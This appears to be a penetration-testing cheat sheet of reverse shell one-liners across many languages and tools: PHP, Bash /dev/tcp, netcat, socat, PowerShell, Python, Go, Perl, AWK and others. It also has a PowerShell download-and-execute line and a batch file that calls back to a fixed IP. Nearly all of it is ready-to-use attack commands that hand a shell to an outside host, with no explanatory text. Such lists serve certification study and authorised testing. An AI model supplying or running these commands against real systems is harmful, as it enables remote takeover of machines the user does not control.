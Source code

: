 # Reverse Shell one liner 
shells - "/usr/share/webshells/"
source -"https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/"
## PHP
``
php -r '$sock=fsockopen("IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
``

``
php -r '$sock=fsockopen("IP",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
``
## Ruby
``
ruby -rsocket -e'f=TCPSocket.open("IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
``
## Bash TCP 
``
bash -i >& /dev/tcp/IP/4444 0>&1
``
## Bash UDP 
``
sh -i >& /dev/udp/IP/5555 0>&1
``
## Telnet
``
telnet ATTACKING-IP 80 | /bin/bash | telnet OurIP 4444
``

``
rm -f /tmp/p; mknod /tmp/p p && telnet 192.168.1.2 4444 0/tmp/p
``
## Netcat/nc
``
nc -e /bin/sh IP 80
``

``
rm -f /tmp/p; mknod /tmp/p p && nc IP 4444 0/tmp/p
``
## Socat
``
socat tcp-connect:<IP>:<PORT> exec:"bash -li",pty,stderr,setsid,sigint,sane
``
## Powershell
``
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("IP",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
``

``
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
``
``
IEX(New-Object Net WebClient).downloadString('URL')
``
## Python(*NIX)
``
export RHOST="IP";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
``

``
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
``
## Python(Windows)
``
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('IP', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
``
## GoLang
``
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP:4444");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
``
## Perl
``
perl -e 'use Socket;$i="IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
``
## AWK
``
awk 'BEGIN {s = "/inet/tcp/0/IP/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
``

## Echo Nc
``
echo shell.exe -e cmd 10.10.14.39 1337 > unk.bat
``
